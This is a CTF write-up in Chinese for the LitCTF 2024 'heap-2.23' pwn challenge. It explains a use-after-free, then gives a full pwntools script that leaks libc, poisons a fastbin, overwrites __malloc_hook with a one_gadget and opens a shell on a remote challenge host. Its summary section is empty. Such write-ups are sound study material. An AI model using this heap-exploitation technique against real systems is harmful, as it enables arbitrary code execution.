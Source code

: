 ```yaml
---
title: \[LitCTF2024\]heap-2.23
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```


# [LitCTF 2024]heap-2.23

`UAF`|`malloc_hook`

> Problem: [[LitCTF 2024]heap-2.23](https://www.nssctf.cn/problem/5614)

## 思路

* 解题大致思路
  edit功能存在一个UAF，通过该漏洞修改fd达到申请任意位置区块的目的，再利用edit功能修改对应区块地址的内容，达到利用目的。
  我这里选择了劫持`__molloc_hook`函数，需要注意的是，我们需要找到一个区块匹配所需要的结构体，详细可以调试看看`mallo_hook-35`这个位置，再往后填充，将`one_gadget`覆盖到`__malloc_hook`的位置。

## EXP

* 具体攻击代码

```python3
from pwn import *
context.terminal=["tmux",'splitw','-h']
context.log_level = 'debug'
#io = gdb.debug('./heap')
io = remote('node4.anna.nssctf.cn',28035)
elf = ELF('./heap')
lib = ELF('/root/tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def create(idx,size):
    io.sendlineafter(b'>>',str(1))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'?',str(size))

def delete(idx):
    io.sendlineafter(b'>>',str(2))
    io.sendlineafter(b'?',str(idx))

def show(idx):
    io.sendlineafter(b'>>',str(3))
    io.sendlineafter(b'?',str(idx))

def edit(idx,content):
    io.sendlineafter(b'>>',str(4))
    io.sendlineafter(b'?',str(idx))
    io.sendlineafter(b'content : \n',content)

create(0,400)   #0
create(1,10)    #1
delete(0)
show(0)
mallo_hook = u64(io.recvuntil(b'\n')[-7:-1].ljust(8,b'\x00'))-0x68
print(hex(mallo_hook))
delete(1)
lib_base = mallo_hook-lib.sym['__malloc_hook']
one_gadget = lib_base+0xf1247

create(2,0x60)
create(3,0x60)

delete(2)
delete(3)

edit(2,p64(mallo_hook-35))
create(4,0x60)
create(5,0x60)
create(6,0x60)
edit(6,cyclic(19)+p64(one_gadget))

create(7,0x60)
io.interactive()
```

## 总结

* 对该题的考点总结
